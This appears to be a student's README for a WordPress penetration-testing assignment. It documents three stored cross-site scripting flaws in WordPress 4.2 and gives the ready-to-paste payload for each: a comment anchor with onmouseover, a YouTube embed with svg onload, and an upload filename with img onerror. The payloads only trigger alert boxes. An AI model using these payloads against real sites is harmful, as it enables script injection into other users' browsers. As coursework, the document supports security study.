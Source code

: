 # Project 7 - WordPress Pentesting

Time spent: **5** hours spent in total

> Objective: Find, analyze, recreate, and document **three to five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Unauthenticated Stored Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: Cross-Site Scripting
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [ ] GIF Walkthrough:
        ![ ](Week7_Attack1.gif)
  - [ ] Steps to recreate:
        1. Paste the following as a comment on a post:
        	```
          <a title='x onmouseover=alert(unescape(/hello%20world/.source))style=position:absolute;left:0;top:0;width:5000px;height:5000px  <insert 64kb of random data>'></a>```
  - [ ] Affected source code:
    
2. (Required) Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
  - [ ] Summary: 
    - Vulnerability types: Cross-Site Scripting
    - Tested in version: 4.2
    - Fixed in version: 4.2.2
  - [ ] GIF Walkthrough:
        ![ ](Week7_Attack2.gif)
  - [ ] Steps to recreate:
        1. Paste the following as a body of a post:
        	```[embed src='https://youtube.com/embed/123\x3csvg onload=alert(9999)\x3e'][/embed]
          ```
  - [ ] Affected source code:
    
3. (Required) Large File Upload Error XSS
  - [ ] Summary: 
    - Vulnerability types: Cross-Site Scripting
    - Tested in version: 4.2
    - Fixed in version: 4.2.3
  - [ ] GIF Walkthrough:
        ![ ](Week7_Attack3.gif)
  - [ ] Steps to recreate:
        1. Upload a file of size greater than 20MB with the following file name:
        	```BigFile<img src=x onerror=alert("Exploit3")>.png
          ```
  - [ ] Affected source code:
 

## Assets

  1. Kali Linux Tool - WPScan: https://wpscan.org

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## License

    Copyright [2019] [Savyasachi Jagadeeshan]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.

